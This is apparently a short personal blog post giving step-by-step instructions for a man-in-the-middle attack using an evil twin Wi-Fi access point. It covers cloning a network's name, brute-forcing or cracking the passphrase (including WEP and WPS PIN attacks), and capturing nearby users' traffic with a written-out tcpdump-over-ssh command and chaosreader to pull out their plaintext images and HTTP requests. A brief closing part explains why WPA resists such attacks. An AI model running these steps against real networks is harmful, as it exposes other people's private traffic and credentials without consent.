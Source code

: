 ```yaml
---
layout: post
published: true
title: Security-MITM-attack-via-Evil-twin-AP
---
```

## Setup a evil twin AP with same Password

### Prepare

- A router with OpenWRT (If you want to try on your laptop, try aircrack-ng also)
- Desktop for auditing

### Quick Start

- Setup the AP and bridge client to connect the orignal twin AP
- Name the AP with same ESSID, you don't need to change BSSID because it's designed with same
- Ask or Try to brute-force crack the passphrase of orignal AP (for WEP, you can also try to capture packets to decrypt, for WPS enabled router, you can attack it by cracking the PIN code)
- Setup the Evil AP with the same passphrase

After this, you can wait until someone (maybe your own mobile phone) connect to your AP without any manual configuration. That's the beauty of SSID system.

- Install tcpdump on the router
- Install chaosreader on your desktop

On desktop, redirect the tcpdump output into local file.

`ssh user@ROUTER_IP "tcpdump -s 0 -U -w - -i ra0 not port 22 and not host DESKTOP_IP" > /tmp/all.cap`

and then `mkdir /tmp/chaos && cd /tmp/chaos && chaosreader /tmp/all.cap`

this will extract all the traffic which are in plaintext and then create a index.html in current folder, open the index.html, you will see a report with images and HTTP requests. Enjoy it.

### Difficulties

- WPA is resisting MITM through four handshakes

Both sides computing a shared secret from a passphrase and a nonce using PBKDF2-SHA1, without revealing any infomation about the passphrase, both Client and AP. This is also using a Key Exchange protocol to avoid replay/MITM attack.

- Https Spoofing is not included in this tiral, because it's kind of tricky when you have to use a illegal certificate or have to attack TLS protocol from basis, will mention it next time.
